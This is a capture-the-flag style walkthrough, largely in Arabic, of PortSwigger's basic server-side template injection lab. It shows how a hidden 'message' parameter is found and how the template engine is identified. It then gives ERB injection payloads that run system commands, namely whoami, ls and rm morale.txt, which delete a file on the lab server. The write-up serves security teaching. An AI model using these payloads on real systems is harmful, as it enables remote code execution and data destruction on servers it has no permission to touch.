 ## Welcome, my friend. Today we will start the [1. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic) in ```portswigger```
### Let's play this lab:

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/67461762-3861-4244-88c5-ee4fb9086d6d)

# الثغرة دي هيتم شرحها باللغة العربية علشان نسهل على بعض :)

### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي.
![image](https://github.com/user-attachments/assets/318cca01-d744-4335-92f2-381a7149940a)

### لم نلاحظ اي شئ مهم لغاية دلوقتي هنبدأ نبحث على param hidden من خلال burp امتداد param miner :
![image](https://github.com/user-attachments/assets/90ae18ec-a3c3-4354-85af-c70333411e43)

### اكتشفنا hidden param اسمه message وده اللي هنستغله:
![image](https://github.com/user-attachments/assets/e46daee4-f2b7-4a6e-8a60-4516189b486d)

### نبدأ نحقن كود زي ده علشان نشوف هيحصل تغير ولا لا
```
/?message=${{<%[%'"}}%\
```

![image](https://github.com/user-attachments/assets/5b3b1844-2811-4782-ab4b-d4035f756985)

### تم نسخ النصوص من غير اي مشاكل معنى ذلك ان الاستغلال تبع مكتبة معينة وليس من ضمن مكاتب بايثون مثل jinja ممكن تكون مثلا rupy. هنجرب الكود التالي ونشوف لو في اي تغيير:

```
/?message=<%= mohamed %>
```

![image](https://github.com/user-attachments/assets/4f438eda-bc7a-4516-9443-d9ab1fccb19f)

### جميل تم ظهور خطأ يشير ان المكتبة المستخدمة هي rupy. دلوقتي ممكن نبحث عن اكواد الحقن زي موقع hacktricks:
![image](https://github.com/user-attachments/assets/95a98468-f6d9-48d8-9061-d125c1851e79)


### هنستخدم ذلك الكود:

```
/?message=<%= system("whoami") %> #Execute code
```

![image](https://github.com/user-attachments/assets/17fffaea-6acb-4e06-8a92-e5d3bf6235bc)


### تم استغلال الكود ممكن نستخدم امر ls علشان نعرف المحتوى:


```
/?message=<%= system("ls") %> #Execute code
```

![image](https://github.com/user-attachments/assets/e7cf1ae7-f845-480a-bf96-12cef31b26dd)

### علشان نحل ذلك التحدي لازم نحذف ملف ```morale.txt```. هنستخدم ذلك الكود:
```
/?message=<%= system("rm morale.txt") %> #Execute code
```

![image](https://github.com/user-attachments/assets/10fe49b9-cbdd-479d-9fc7-be87aced9902)

## وهنا تم حل اللاب يا صديقي ;)





-----------------

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>




